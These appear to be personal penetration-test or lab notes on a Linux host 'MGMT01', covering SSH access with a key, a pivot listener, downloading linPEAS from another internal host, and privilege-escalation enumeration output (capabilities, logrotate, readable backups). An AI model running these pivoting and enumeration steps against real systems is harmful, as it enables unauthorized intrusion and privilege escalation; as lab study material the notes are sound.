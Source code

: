 - Connection
```
ssh ssmallsadm@172.16.9.25 -i ssmallsadm-id_rsa
```
- add listener for second session
```
listener_add --addr 0.0.0.0:8888 --to 0.0.0.0:8888
```
- install linpeas after that
```
curl http://172.16.9.3:8888/enum/PEASS-ng/linPEAS/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
```
- `uname -a`
```
Linux MGMT01 5.10.0-051000-generic #202012132330 SMP Sun Dec 13 23:33:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
- `lsb_release -a`
```
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.3 LTS
Release:        20.04
Codename:       focal
```
# `ps aux`
- `/usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers`
- `/usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-f`
- `/usr/lib/policykit-1/polkitd --no-debug`
# winpeas
- Some interesting capabilities, specially  `gst-ptp-helper`
```
Files with capabilities (limited to 50):                                                          
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/snap/core20/1169/usr/bin/ping = cap_net_raw+ep
/snap/core20/1434/usr/bin/ping = cap_net_raw+ep 
```
- modified interesting files in the last 5mins
```
/home/ssmallsadm/.gnupg/pubring.kbx
/home/ssmallsadm/.gnupg/trustdb.gpg
/home/ssmallsadm/snap/lxd/common/config/config.yml   
```
- logrotate with writable files
```
logrotate 3.14.0
    Default mail command:       /usr/bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate/status
    ACL support:                yes
    SELinux support:            yes
```
- readable backup
```
/var/backups/alternatives.tar.0 
```
